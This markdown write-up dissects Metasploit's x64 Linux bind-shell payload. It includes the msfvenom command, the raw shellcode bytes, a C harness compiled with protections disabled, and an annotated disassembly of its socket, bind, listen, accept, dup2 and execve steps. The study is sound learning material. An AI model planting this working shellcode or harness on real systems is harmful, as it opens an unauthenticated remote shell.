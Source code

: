 # Bind Shell

The next payload is the shell_bind_tcp payload which listens on a specified socket and spawns a shell upon a received connection.

```
msfvenom -p linux/x64/shell_bind_tcp lport=4444 -f c
```

Placed the shellcode into a C program for testing 
```
unsigned char shellcode[] =
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x52"
"\xc7\x04\x24\x02\x00\x11\x5c\x48\x89\xe6\x6a\x10\x5a\x6a\x31"
"\x58\x0f\x05\x6a\x32\x58\x0f\x05\x48\x31\xf6\x6a\x2b\x58\x0f"
"\x05\x48\x97\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75"
"\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00"
"\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";

    (*(void(*)()) shellcode)();

```

Compiled as usual:
```
 gcc -m64 -z execstack -fno-stack-protector Test.c -o Test -no-pie
```

# Analysis

1. Create a socket

    ```
    push   0x29
    pop    rax
    cdq ; Clear rdx
    push   0x2 # AF_INET
    pop    rdi
    push   0x1 # SOCK_STREAM
    pop    rsi
    syscall SYS_SOCKET
    xchg   rdi,rax
    ```

2.  Create a struct_sockaddr = sockaddr = {AF_INET; PORT; 0x0; 0x0} and bind the created socket

    ```
    push   rdx
    mov    DWORD PTR [rsp],0x5c110002
    mov    rsi,rsp
    push   0x10 ; Size of the struct
    pop    rdx

    push   0x31 ; SYS_BIND
    pop    rax
    syscall
    ```

3. Make the socket listen

    ```
    push   0x32 ; SYS_LISTEN
    pop    rax
    syscall
    ```

4. Accept

    ```
    xor    rsi,rsi
    push   0x2b ; SYS_ACCEPT
    pop    rax
    syscall
    xchg   rdi,rax
    ```
    

5. Dup2-loop

    ```
    push   0x3 
    pop    rsi
    dec    rsi ; start with stderr
    push   0x21 ; dup2
    pop    rax
    syscall

    dec    rsi
    push   0x21 ; dup2
    pop    rax
    syscall
    ```

6. Execve('/bin/sh', ['/bin/sh'], 0);

    ```
    push   0x3b
    pop    rax
    cdq
    movabs rbx,0x68732f6e69622f
    push   rbx
    mov    rdi,rsp
    push   rdx
    push   rdx
    push   rdi
    mov    rsi,rsp
    syscall

    ```

